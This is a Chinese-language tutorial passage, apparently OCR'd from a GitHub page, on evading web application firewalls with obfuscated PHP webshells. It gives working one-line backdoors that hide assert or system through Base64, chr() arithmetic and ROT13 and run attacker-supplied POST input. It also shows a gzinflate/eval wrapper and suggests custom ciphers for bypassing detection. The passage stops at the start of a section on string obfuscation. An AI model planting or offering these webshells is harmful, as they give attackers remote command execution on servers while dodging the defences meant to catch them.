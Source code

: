 ###

### 1.1 Base64编码

  *   *   *   * 

    
    
    <?php$f = base64_decode("YX____Nz__ZX__J0");  //解密后为assert高危函数$f($_POST[aabyss]);                      //assert($_POST[aabyss]);?>

###

### 1.2 ASCII编码

  *   *   *   *   * 

    
    
    <?php//ASCII编码解密后为assert高危函数$f =  chr(98-1).chr(116-1).chr(116-1).chr(103-2).chr(112+2).chr(110+6);$f($_POST['aabyss']);                //assert($_POST['aabyss']);?>

###

### 1.3 ROT13编码

  *   * 

    
    
    $f = str_rot13('flfgrz');  //解密后为system高危函数$f($_POST['aabyss']);      //system($_POST['aabyss']);

当然还有很多其他的编码和加密方式，但常见的编码方式都被放入敏感名单了，会根据加密的形式自动进行解密

可以考虑一些比较冷门的编码方式，或者写一个类似于凯撒密码的加密函数，来对WAF进行ByPass

###

### 1.4 Gzip压缩加密

我先举一个 `phpinfo()` 加密后的示例：

    
    
    /*Protected by AabyssZG*/  
    eval(gzinflate(base64_decode('40pNzshXKMgoyMxLy9fQtFawtwMA'))); 

加密手法可以看我写的博客： https://blog.zgsec.cn/index.php/archives/147/

##

## 2# 字符串混淆处理绕过

###

### 2.1 自定义函数混淆字符串

通过对上面所说两部分敏感内容的拼接、混淆以及变换，来绕过WAF的检测逻辑，如下：

  *   *   *   *   *   *   *   *   *   *   * 
